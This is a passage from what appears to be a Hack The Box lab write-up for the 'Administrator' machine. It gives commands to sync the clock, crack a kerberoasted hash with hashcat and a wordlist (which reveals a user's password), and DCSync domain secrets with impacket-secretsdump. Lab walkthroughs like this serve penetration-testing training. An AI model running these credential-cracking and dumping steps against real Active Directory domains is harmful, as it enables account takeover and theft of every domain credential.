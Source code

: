 
just do 
```
sudo timedatectl set-ntp off 
sudo rdate -n <ip addr of administrator.htb>
```


crack the hash of ethan
copy the hash into a hash.txt file
```
hashcat -m 13100 hash.txt /usr/share/wordlist/rockyou.txt
```
![](../Assets/Screenshot%202025-06-27%20at%206.23.11%20PM.png)

we get the password: limpbizkit

Now we know that Ethan has getchangesall on the domain that will allow him to perform dcsync
![](../Assets/Screenshot%202025-06-27%20at%206.28.37%20PM.png)

we can perform a dcsync using impacket-secretsdump
```
impacket-secretsdump -outputfile administrator.htb -just-dc administrator.htb/ethan@10.10.11.42
```